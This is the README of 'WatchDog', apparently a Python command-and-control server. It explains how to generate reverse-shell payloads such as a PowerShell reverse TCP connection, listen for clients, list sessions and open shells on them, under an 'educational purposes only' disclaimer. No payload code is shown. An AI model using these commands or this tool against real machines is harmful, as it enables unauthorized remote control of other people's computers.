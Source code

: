 # WatchDog
WatchDog is a simple Python-based command and control (C2) server that allows you to manage and interact with multiple clients remotely. It provides a basic shell interface for executing commands on connected clients, checking their status, and generating payload scripts for reverse shell connections.

<h1>Features</h1>
Multi-client Support:      WatchDog can handle multiple client connections simultaneously.
Payload Generation:        Generate payload scripts for various platforms and network configurations.
Client Status Monitoring:  Keep track of connected clients and receive notifications when clients disconnect.
Basic Shell Interface:     Interact with connected clients using a shell-like interface.

# Installation
```C
git clone https://github.com/your-username/WatchDog.git
cd WatchDog
python WatchDog.py
```

# Usage
WatchDog uses a simple command-line interface to manage various functionalities. Here are some key commands:

generate
Generate a payload for a reverse shell connection.
```C
generate payload=<payload_type> lhost=<local_host> lport=<local_port>
```

server
Configure the server settings and start listening for incoming connections.
```C
server rhost=<remote_host> rport=<remote_port> listening=<true/false>
```

# sessions
List all currently connected clients.

# shell <client_number>
Open a shell interface to interact with a specific connected client.

# help
Display help information with examples of command usage.

# Example Usage
Generate a payload for a Windows PowerShell reverse TCP connection:
```C
generate payload=windows/powershell/reverse_tcp lhost=192.168.10.1 lport=5050
```

Start the server and listen for incoming connections:
```C
server rhost=192.168.10.1 rport=5050 listening=true
```

View the list of connected clients:
```C
sessions
```

Interact with a specific client:
```C
shell 0
```


# Disclaimer
This project is for educational purposes only. The use of WatchDog for any malicious activity is strictly prohibited. The authors are not responsible for any misuse or damage caused by this software.

# Contributing
Feel free to contribute to the development of WatchDog by submitting issues or pull requests. Your feedback and contributions are highly appreciated.
